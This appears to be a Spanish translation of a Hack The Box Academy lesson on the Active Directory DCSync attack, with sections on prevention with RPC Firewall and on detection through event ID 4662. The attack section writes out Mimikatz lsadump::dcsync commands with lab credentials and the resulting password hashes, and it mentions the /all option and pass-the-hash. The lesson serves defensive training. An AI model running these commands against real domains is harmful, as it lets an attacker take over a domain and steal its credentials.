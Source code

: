 # DCSync

# **Descripción**

`DCSync`es un ataque que los agentes de amenaza utilizan para hacerse pasar por un controlador de dominio y realizar replicación con un controlador de dominio objetivo para extraer hash de contraseña de Active Directory. El ataque se puede realizar tanto desde la perspectiva de una cuenta de usuario como desde una computadora, siempre que tengan los permisos necesarios asignados, que son:

- `Replicating Directory Changes`
- `Replicating Directory Changes All`

---

# **Ataque**

Utilizaremos al usuario`Rocky`(cuya contraseña es`Slavi123`) para mostrar el`DCSync`ataque. Cuando revisamos los permisos de Rocky, vemos que tiene`Replicating Directory Changes`y`Replicating Directory Changes All`Asignado:

![](https://academy.hackthebox.com/storage/modules/176/A7/DCPermission.png)

Primero, necesitamos comenzar un nuevo shell de comando que se ejecute como Rocky:

Dcsync

```
C:\Users\bob\Downloads>runas /user:eagle\rocky cmd.exe

Enter the password for eagle\rocky:
Attempting to start cmd.exe as user "eagle\rocky" ...

```

![](https://academy.hackthebox.com/storage/modules/176/A7/Rockyprompt.png)

Posteriormente, necesitamos usar`Mimikatz`, una de las herramientas con una implementación para realizar DCSYNC. Podemos ejecutarlo especificando el nombre de usuario cuyo hash contraseña queremos obtener si el ataque es exitoso, en este caso, el "administrador" del usuario:

Dcsync

```
C:\Mimikatz>mimikatz.exe

mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator

[DC] 'eagle.local' will be the domain
[DC] 'DC2.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 07/08/2022 11.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8

```

![](https://academy.hackthebox.com/storage/modules/176/A7/AdminHash.png)

Es posible especificar el`/all`Parámetro en lugar de un nombre de usuario específico, que arrojará los hash de todo el entorno AD. Podemos realizar`pass-the-hash`con el hash obtenido y autenticarse contra cualquier controlador de dominio.

---

# **Prevención**

Lo que los abusos de DCSYNC es una operación común en entornos de activo directorio, ya que las replicaciones ocurren entre los controladores de dominio todo el tiempo; Por lo tanto, prevenir DCSYNC fuera de la caja no es una opción. La única técnica de prevención contra este ataque es usar soluciones como el[Firewall RPC](https://github.com/zeronetworks/rpcfirewall), un producto de terceros que puede bloquear o permitir llamadas específicas de RPC con granularidad robusta. Por ejemplo, usando`RPC Firewall`, solo podemos permitir réplicas de controladores de dominio.

---

# **Detección**

Detectar DCSYNC es fácil porque cada replicación del controlador de dominio genera un evento con la ID`4662`. Podemos recoger solicitudes anormales inmediatamente al monitorear esta ID de evento y verificar si la cuenta del iniciador es un controlador de dominio. Aquí está el evento generado desde antes cuando corrimos`Mimikatz`; Sirve como una bandera que una cuenta de usuario está realizando este intento de replicación:

![](https://academy.hackthebox.com/storage/modules/176/A7/DetectDCSync.png)

Dado que las replicaciones ocurren constantemente, podemos evitar falsos positivos asegurando los siguientes:

- O la propiedad`1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`o`1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`es[presente en el evento](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb).
- Sistemas/cuentas de lista blanca con una razón comercial (válida) para replicar, como`Azure AD Connect`(Este servicio replica constantemente controladores de dominio y envía los hash de contraseña obtenidos a Azure AD).